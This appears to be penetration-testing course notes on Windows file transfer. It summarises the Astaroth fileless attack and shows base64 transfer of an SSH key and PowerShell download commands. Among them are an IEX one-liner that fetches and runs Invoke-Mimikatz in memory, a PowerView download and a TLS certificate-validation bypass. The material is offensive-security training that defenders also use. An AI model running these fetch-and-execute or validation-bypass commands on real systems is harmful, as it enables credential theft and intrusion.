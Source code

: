 # Windows File Transfer Methods

The Windows operating system has evolved over the past few years, and new versions come with different utilities for file transfer operations. Understanding file transfer in Windows can help both attackers and defenders. Attackers can use various file transfer methods to operate and avoid being caught. Defenders can learn how these methods work to monitor and create the corresponding policies to avoid being compromised.

Let's use the Microsoft Astaroth Attack blog post as an example of an advanced persistent threat (APT).

The blog post starts out talking about fileless threats. The term fileless suggests that a threat doesn't come in a file, they use legitimate tools built into a system to execute an attack. This doesn't mean that there's not a file transfer operation. As discussed later in this section, the file is not "present" on the system but runs in memory.

The Astaroth attack generally followed these steps: A malicious link in a spear-phishing email led to an LNK file. When double-clicked, the LNK file caused the execution of the WMIC tool with the "/Format" parameter, which allowed the download and execution of malicious JavaScript code. The JavaScript code, in turn, downloads payloads by abusing the Bitsadmin tool.

All the payloads were base64-encoded and decoded using the Certutil tool resulting in a few DLL files. The regsvr32 tool was then used to load one of the decoded DLLs, which decrypted and loaded other files until the final payload, Astaroth, was injected into the Userinit process.

We have access to the machine MS02, and we need to download a file from our Pwnbox machine. Let's see how we can accomplish this using multiple File Download methods.

Depending on the file size we want to transfer, we can use different methods that do not require network communication. If we have access to a terminal, we can encode a file to a base64 string, copy its contents from the terminal and perform the reverse operation, decoding the file in the original content. Let's see how we can do this with PowerShell.
An essential step in using this method is to ensure the file you encode and decode is correct. We can use md5sum, a program that calculates and verifies 128-bit MD5 checksums. The MD5 hash functions as a compact digital fingerprint of a file, meaning a file should have the same MD5 hash everywhere. Let's attempt to transfer a sample ssh key. It can be anything else, from our Pwnbox to the Windows target.

- Pwnbox Check SSH Key MD5 Hash: Pwnbox Check SSH Key MD5 Hash
- Pwnbox Encode SSH Key to Base64: `cat id_rsa | base64 -w 0;echo`

We can copy this content and paste it into a Windows PowerShell terminal and use some PowerShell functions to decode it.
`[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("base64")`

Most companies allow HTTP and HTTPS outbound traffic through the firewall to allow employee productivity. Leveraging these transportation methods for file transfer operations is very convenient. Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks.
PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP, HTTPS or FTP. The following table describes WebClient methods for downloading data from a resource:

- OpenRead: Returns the data from a resource as a Stream;
- OpenReadAsync: Returns the data from a resource without blocking the calling thread;
- DownloadData: Downloads data from a resource and returns a Byte array;
- DownloadDataAsync: Downloads data from a resource and returns a Byte array without blocking the calling thread;
- DownloadFile: Downloads data from a resource to a local file;
- DownloadFileAsync: Downloads data from a resource to a local file without blocking the calling thread;
- DownloadString: Downloads a String from a resource and returns a String;
- DownloadStringAsync: Downloads a String from a resource without blocking the calling thread.



## File Download

We can specify the class name Net.WebClient and the method DownloadFile with the parameters corresponding to the URL of the target file to download and the output file name.

- `(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')`

- `(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')`

## PowerShell DownloadString - Fileless Method

As we previously discussed, fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the Invoke-Expression cmdlet or the alias IEX.

- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`

IEX also accepts pipeline input.

- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`

## PowerShell Invoke-WebRequest

From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.

- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`

## Common Errors with PowerShell

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter -UseBasicParsing.

Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

- `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

